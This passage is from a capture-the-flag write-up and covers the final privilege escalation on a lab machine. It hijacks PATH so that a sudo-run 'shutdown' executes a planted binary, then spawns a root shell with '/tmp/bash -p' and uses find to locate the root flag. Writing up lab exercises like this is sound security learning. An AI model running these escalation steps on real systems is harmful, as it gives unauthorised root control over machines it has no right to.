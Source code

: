 Now we need to give execution priority to binaries in
our directory. This can be achieved by putting our
current directory at the beginning
of the `PATH` variable

```bash
export PATH=$(pwd):$PATH
```

Everything should be set so let's escalate

```bash
sudo /usr/sbin/shutdown
/tmp/bash -p
```

![root shell](/images/yot-fox/path-abuse.png)

Now we can get the `root` flag

![root shell](/images/yot-fox/root-flag-missing.png)

It's not here... We can use the `find` command to
look for a file with `root` somewhere in the filename

```bash
find / -type f -name "*root*" -ls 2>/dev/null
```

![root flag](/images/yot-fox/root-flag.png)

